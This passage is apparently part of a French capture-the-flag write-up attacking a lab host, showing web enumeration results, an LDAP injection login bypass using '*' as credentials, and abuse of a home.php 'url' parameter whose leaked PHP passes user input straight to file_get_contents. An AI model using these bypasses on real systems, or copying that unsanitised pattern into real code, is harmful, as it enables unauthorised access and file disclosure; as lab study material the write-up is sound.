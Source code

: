 ```shellsession
|_      subschemaSubentry: cn=Subschema
```

Je me suis alors orienté vers le serveur web qu'il fallait énumérer, ce que j'ai fait en long et en large. Au final j'ai trouvé les scripts suivants :

```
302        0l        0w        0c http://192.168.56.116/logout.php
302        0l        0w        0c http://192.168.56.116/home.php
200       39l       79w     1650c http://192.168.56.116/admin.php
200       18l       21w      207c http://192.168.56.116/index.html
200        3l       12w      165c http://192.168.56.116/portraits.php
```

La page de login est `admin.php` et elle ne semble pas vulnérable à une injection SQL.

La page `portraits.php` affiche trois images de Zeus. J'ai regardé les tags `exif` des images et rien remarqué d'intéressant. L'une des images avait la chaine `Ducky` vers le début mais c'est apparamment lié au format JPG : [imagemagick - How can I display the orientation of a JPEG file? - Stack Overflow](https://stackoverflow.com/questions/9371273/how-can-i-display-the-orientation-of-a-jpeg-file#40055711)

Finalement j'ai pensé à l'injection LDAP. J'ai d'abord trouvé un article qui proposait une méthode de bypass mais ça ne fonctionnait pas. Finalement quand `HackTricks` a refait surface je me suis basé sur [LDAP Injection - HackTricks](https://book.hacktricks.xyz/pentesting-web/ldap-injection#login-bypass) et j'ai pu bypasser avec succès le login en saisissant `*` en nom d'utilisateur et password.

On pouvoit alors voir dans le site l'URL suivante :

`http://192.168.56.116/home.php?url=http://127.0.0.1/portraits.php`

Il ne s'agit pas d'une inclusion distante mais d'un directory traversal. On en a la confirmation si on passe `home.php` comme valeur au paramètre `url` :

```php
<?php
session_start();

if(!isset($_SESSION['loggedin'])){
	header("Location: admin.php");
	exit;
}

if (!empty($_GET["url"]))
{
$r = $_GET["url"];
$result = file_get_contents($r);
}

?>
```

Voyons voir comment est géré l'authentification dans `admin.php` :

```php
<?php
session_start();

if(isset($_SESSION["loggedin"]) && $_SESSION["loggedin"] === true){
    header("location: home.php");
    exit;
}

function authLdap($username, $password) {
  $ldap_ch = ldap_connect("ldap://172.18.0.22");

  ldap_set_option($ldap_ch, LDAP_OPT_PROTOCOL_VERSION, 3);

  if (!$ldap_ch) {
```